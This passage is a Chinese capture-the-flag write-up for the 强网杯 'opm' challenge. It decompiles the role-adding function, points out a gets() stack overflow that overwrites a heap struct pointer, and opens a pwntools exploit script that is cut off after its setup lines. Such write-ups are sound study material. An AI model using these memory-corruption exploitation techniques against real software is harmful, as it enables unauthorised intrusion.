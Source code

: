 ###强网杯opm

#####程序流程分析
程序实现了一个添加Role和打印Role信息的功能, 
每个Role由一个堆上分配的结构体存储,大小为0x20B
```
00000000 struc_role      struc ; (sizeof=0x1C, mappedto_6)
00000000 print_addr      dq ?    ;打印函数地址
00000008 name            dq ?    ;role名称地址
00000010 len             dq ?    ;名称长度
00000018 punch           dd ?    ;打击次数
0000001C struc_role      ends
```
一共可添加10个Role, 指针存放在全局数组Roles中
添加Role的过程add_role:
```
struc_role *add_role()
{
  struc_role *role_chunk; // rbx
  struc_role *role_ptr2; // rbx
  size_t len; // rax
  struc_role *role_ptr3; // rbx
  char buf[128]; // [rsp+0h] [rbp-1A0h]
  struc_role *role_ptr; // [rsp+80h] [rbp-120h]
  char *name_ptr; // [rsp+100h] [rbp-A0h]
  unsigned __int64 v8; // [rsp+188h] [rbp-18h]

  v8 = __readfsqword(0x28u);
  role_chunk = (struc_role *)operator new(0x20uLL);
  init_role((__int64)role_chunk);
  role_ptr = role_chunk;
  role_chunk->print_addr = (__int64)print;
  puts("Your name:");
  gets((__int64)buf);  
  role_ptr2 = role_ptr;
  role_ptr2->len = strlen(buf);
  len = strlen(buf);
  name_ptr = (char *)malloc(len);
  strcpy(name_ptr, buf);
  role_ptr->name = (__int64)name_ptr;
  puts("N punch?");
  gets((__int64)buf);
  role_ptr3 = role_ptr;
  role_ptr3->punch = atoi(buf);
  print((__int64)role_ptr);
  return role_ptr;
}
```
gets函数存在栈溢出, 可覆盖Role结构体指针
Exp1: 
```
from pwn import *

#context.log_level="debug"
# p = remote("localhost",1234)

p = process('./opm')
# Wait for debugger
pid = util.proc.pidof(p)[0]
print "The pid is: "+str(pid)
util.proc.wait_for_debugger(pid)

def add(name,n):
        p.recvuntil("(E)")
        p.sendline("A")
```